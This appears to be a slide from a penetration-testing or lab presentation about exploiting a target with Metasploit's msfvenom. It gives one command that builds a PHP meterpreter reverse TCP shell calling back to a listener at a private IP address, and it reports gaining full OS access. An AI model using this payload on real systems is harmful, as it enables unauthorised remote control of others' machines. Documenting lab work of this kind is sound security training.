

# Exploitation: Metasploit msfvenom

02

01

03

Achievements
Successfully connected and started a meterpreter reverse TCP session, with full access into the target’s OS

Commands
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=80 >> shell.php

Tools & Processes
The command msfvenom was used to exploit the target machine.